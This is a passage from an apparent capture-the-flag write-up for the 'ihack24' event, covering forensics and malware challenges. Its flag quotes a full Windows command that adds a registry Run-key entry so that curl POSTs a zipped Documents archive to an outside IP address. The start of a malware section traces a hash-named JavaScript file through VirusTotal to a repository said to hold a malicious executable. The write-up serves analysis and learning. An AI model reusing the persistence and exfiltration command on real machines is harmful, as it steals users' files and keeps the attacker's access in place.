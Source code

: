 > **Flag:** ihack24{reg add 'HKLM\Software\Microsoft\Windows\CurrentVersion\Run' /v report /t REG_SZ /d 'cmd.exe /c curl -XPOST 157.230.33.7/upload -F files=@C:\Users\admin\Documents\DESKTOP-9O75B7U.zip' /f}

# Malware

## Confusing Javascript

Given a javascript file. 

```bash
eb925a1589f0c98b5550d3f176a141386bd8285cab874b5ed650535d4a1c0f16.js: JavaScript source, Unicode text, UTF-8 text, with very long lines (766), with CRLF line terminators
```

Notice that the filename looks like a hash. Initial step taken was putting the filename into VirusTotal.

Link [here](https://www.virustotal.com/gui/file/eb925a1589f0c98b5550d3f176a141386bd8285cab874b5ed650535d4a1c0f16/detection)

![](info13.png)

From here, the solution can go faster for this challenge without opening the javascript file.

The link provided by the VirusTotal contains a [github repository with a malicious executable](https://github.com/Hrztrm/refactored-bassoon). 
